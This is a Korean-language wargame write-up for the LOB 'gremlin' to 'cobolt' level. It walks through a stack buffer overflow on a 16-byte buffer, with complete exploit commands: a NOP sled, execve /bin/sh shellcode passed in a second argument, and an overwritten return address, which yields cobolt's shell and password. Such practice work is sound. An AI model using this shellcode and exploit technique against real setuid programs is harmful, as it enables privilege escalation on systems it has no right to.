 # LOB - gremlin

이전 문제인 gate에서 구한 gremlin과 PW인 hello bof world를 통해 들어간다.



ID : gremlin

PW : hello bof world

![1567942255396](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567942255396.png)



파일 목록을 보면

![1567942344322](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567942344322.png)

cobolt와 cobolt의 소스가 들어있다.



```c
vi cobolt.c 를 통해 소스를 확인하면
```

![1567942384266](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567942384266.png)

gate와 전체적인 내용은 같지만 이번엔 buffer 크기가 16 byte이다.



```c
mkdir tmp
cp cobolt tmp/	명령어를 통해 일단 파일을 복사한다.
```



tmp 디렉터리에서

```c
buffer의 크기는 16 byte
SFP 크기는 4 byte이므로

./cobolt `python -c 'print "\x90"*20+"\x61\x61\x61\x61"'`
을 해주면 segmentation fault가 뜬다.
```

![1567943593663](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567943593663.png)



```c
gdb -c core 명령어를 통해 들어가본다.
```

![1567943607752](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567943607752.png)



RET 에 들어간

0x61616161 가 뭐냐고 물어보고 있다. -> eip에 들어가 있을 것이다.

![1567943650184](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567943650184.png)



일단 \x90 값이 어디에 들어갔는지 보기위해 

```c
x/100wx $esp+300	명령어를 사용한다.
```

![1567943764457](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567943764457.png)

위와 같이 \x90이 20개 들어가고, RET에 \x61616161 이 들어간 것을 볼 수 있다.



---

argv를 2개 주었다.

```c
./cobolt `python -c 'print "b"*20+"\x61\x61\x61\x61"'` `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

![1567947455469](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567947455469.png)



```c
gdb -c core	명령어를 통해 core를 확인한다.
```

![1567947401705](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567947401705.png)



RET가 0x61616161 이므로 저 주소가 뭔지 묻고 있다.

```c
x/100wx $esp+300	명령어를 통해 보면
```

![1567947803636](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567947803636.png)

argv 첫번째 인자가 나오고 Null 값이 들어간 후 두번째 인자가 들어간다.



두번째 인자에 쉘코드가 들어가 있으므로 첫번째 인자의 RET 부분에 두번째 인자 부분에서 쉘코드 앞에 있는 Nop 값이 있는 부분 주소를 적는다.

0xbffffbcc 를 선택했다.

```c
./cobolt `python -c 'print "b"*20+"\xcc\xfb\xff\xbf"'` `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```



위의 POC를 실행하면

![1567948049560](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567948049560.png)

쉘이 뜬다.

하지만 이 파일은 tmp에 내가 복사한 파일이므로 gremlin 밖에 뜨지 않는다.



main 디렉터리로 돌아와서

POC를 실행하면

![1567948099912](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567948099912.png)

cobolt의 권한이 들어오고,

my-pass를 통해 cobolt의 password를 얻을 수 있다.

